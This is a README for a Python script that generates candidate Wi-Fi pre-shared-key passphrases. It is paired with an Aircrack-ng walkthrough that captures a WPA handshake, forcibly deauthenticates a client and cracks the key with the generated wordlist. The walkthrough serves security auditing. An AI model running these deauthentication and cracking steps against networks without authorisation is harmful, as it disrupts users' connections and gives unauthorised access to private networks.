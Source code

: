 # psk-passphrase-generator.py

## Description

Generate possible pre-shared key passphrase.

## Usage

Sample usage:

    ./psk-passphrase-generator.py -l 4 -p WIFI -o password.lst

Sample output:

    ...
    WIFI003Q
    WIFI003R
    WIFI003S
    WIFI003T
    WIFI003U
    WIFI003V
    WIFI003W
    WIFI003X
    WIFI003Y
    WIFI003Z
    ...

## Audit WiFi

Audit WiFi using [Aircrack](http://aircrack-ng.org) security auditing tools suite 

    # Setting up madwifi-ng
    airmon-ng start wifi0 9

    # Start airodump-ng to collect authentication handshake
    airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk ath0

    # Use aireplay-ng to deauthenticate the wireless client (The lazy way)
    aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 ath0

    # Use aireplay-ng to deauthenticate the wireless client (The aggressive way)
    aireplay-ng --deauth 5 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 ath0

    # Run aircrack-ng to crack the pre-shared key
    aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap

## License

psk-passphrase-generator.py is licensed under the [MIT license](http://www.opensource.org/licenses/mit-license.php)